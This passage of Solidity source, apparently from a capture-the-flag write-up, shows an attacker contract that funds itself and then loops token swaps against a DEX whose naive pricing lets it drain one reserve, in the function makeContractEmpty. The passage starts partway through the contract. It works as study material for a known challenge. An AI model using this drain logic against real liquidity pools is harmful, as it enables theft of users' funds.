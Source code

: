```solidity
        dex.approve(token2, 200);
    }

    function transferTokenToDex() public {
        dex.add_liquidity(token2, 10);
    }

    function transferTokenToThis() public {
        IERC20(token1).transferFrom(myWallet, address(this), 10);
        IERC20(token2).transferFrom(myWallet, address(this), 10);
    }

    function makeContractEmpty() public {
        while (true) {
            if (
                dex.balanceOf(token1, dexContract) == 0 ||
                dex.balanceOf(token2, dexContract) == 0
            ) return;
            if (dex.balanceOf(token1, address(this)) != 0) {
                uint256 swapprice = dex.get_swap_price(
                    token1,
                    token2,
                    dex.balanceOf(token1, address(this))
                );
                if (swapprice > dex.balanceOf(token2, dexContract)) {
                    dex.swap(
                        token1,
                        token2,
                        dex.balanceOf(token1, dexContract)
                    );
                    return;
                }
                dex.swap(token1, token2, dex.balanceOf(token1, address(this)));
            } else {
                uint256 swapprice = dex.get_swap_price(
                    token2,
                    token1,
                    dex.balanceOf(token2, address(this))
                );
                if (swapprice > dex.balanceOf(token1, dexContract)) {
                    dex.swap(
                        token2,
                        token1,
                        dex.balanceOf(token2, dexContract)
                    );
                    return;
                }
                dex.swap(token2, token1, dex.balanceOf(token2, address(this)));
            }
        }
    }
}
```
